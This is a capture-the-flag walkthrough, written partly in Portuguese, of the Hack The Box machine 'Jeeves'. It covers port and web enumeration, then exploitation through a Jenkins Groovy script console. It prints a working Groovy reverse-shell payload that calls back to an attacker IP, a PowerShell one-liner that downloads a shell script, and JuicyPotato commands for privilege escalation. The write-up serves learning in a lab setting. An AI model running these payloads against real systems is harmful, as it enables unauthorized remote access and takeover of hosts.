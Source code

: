 Jeeves
========================
# Enumeration

    sudo nmap_enum jeeves.htb | tee nmap_output.txt

![qownnotes-media-ErxBki](../../../media/qownnotes-media-ErxBki.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn jeeves.htb | tee nmap_udp_output.txt
 
 ![qownnotes-media-WUkTQI](../../../media/qownnotes-media-WUkTQI.png)
 
    sudo nmap -Pn -n -T5 -sC -p- jeeves.htb | tee nmap_fullportstcp_output.txt
    
![qownnotes-media-RElMdB](../../../media/qownnotes-media-RElMdB.png)

    nikto -host http://10.10.10.63 -T x 6 | tee nikto_80_output.txt
    
    
![qownnotes-media-uMuuTt](../../../media/qownnotes-media-uMuuTt.png)



    nikto -host http://10.10.10.63:50000 -T x 6 | tee nikto_50000_output.txt
    
![qownnotes-media-tdsWHU](../../../media/qownnotes-media-tdsWHU.png)

    
    gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_50000_gobuster"

![qownnotes-media-wFoLvy](../../../media/qownnotes-media-wFoLvy.png)


    gobuster dir -u http://10.10.10.63 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster"
    
![qownnotes-media-mPMUWH](../../../media/qownnotes-media-mPMUWH.png)

Null session

    smbclient -L //10.10.10.63 -U '' -N

![qownnotes-media-CwDUZi](../../../media/qownnotes-media-CwDUZi.png)


    rpcclient -U '' -N 10.10.10.63

![qownnotes-media-QvEoWw](../../../media/qownnotes-media-QvEoWw.png)

Search explolits

    searchsploit jetty

![qownnotes-media-otxabb](../../../media/qownnotes-media-otxabb.png)

![qownnotes-media-XbPSbZ](../../../media/qownnotes-media-XbPSbZ.png)


![qownnotes-media-dqcjOK](../../../media/qownnotes-media-dqcjOK.png)

Aqui um aprendizado interssante que se trata do seguinte... Na enumeração web, utilizar de outras listas de diretórios, pois nesse caso não foi identificado a web management do jenkins:

Então, ficou dessa forrma para detectarmos a web console:

    gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_jeeves_gobuster.txt"

![qownnotes-media-AfZgzX](../../../media/qownnotes-media-AfZgzX.png)


![qownnotes-media-bQbdvz](../../../media/qownnotes-media-bQbdvz.png)

# Exploitation

Aqui foi relativamente trivial, pois  com uma pesquisa rápida no google já deu pra chegar na shell rapidinho:

https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/

<https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76>

![qownnotes-media-pFMOLn](../../../media/qownnotes-media-pFMOLn.png)

Basta mudar o IP do exploit e já era:

    String host="10.10.14.8";
    int port=8044;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


    nc -nlvp 8044

![qownnotes-media-TAQaYz](../../../media/qownnotes-media-TAQaYz.png)

# Privilege Escalation

Primeiro teste e já com sucesso:

    whoam /priv

![qownnotes-media-HlTXtv](../../../media/qownnotes-media-HlTXtv.png)

JuicyPotato na manga:

    copy \\10.10.14.8\smb\"4-privilege escalation\JuicyPotato.exe" jp.exe

![qownnotes-media-rWtOAk](../../../media/qownnotes-media-rWtOAk.png)

    powershell -exec bypass -c "(new-object net.webclient).downloadfile('http://10.10.14.8/shell.bat', 'c:\temp\shell.bat')"
    
    
![qownnotes-media-oIvoPX](../../../media/qownnotes-media-oIvoPX.png)

    jp.exe -t * -p shell.bat -l 4444
    
    nc -nlvp 8082
    
![qownnotes-media-IGhZti](../../../media/qownnotes-media-IGhZti.png)

    Get-ChildItem -Include *.txt -File -Path C: -Recurse -ErrorAction SilentlyContinue
    
    dir /a C:\users\administrator\desktop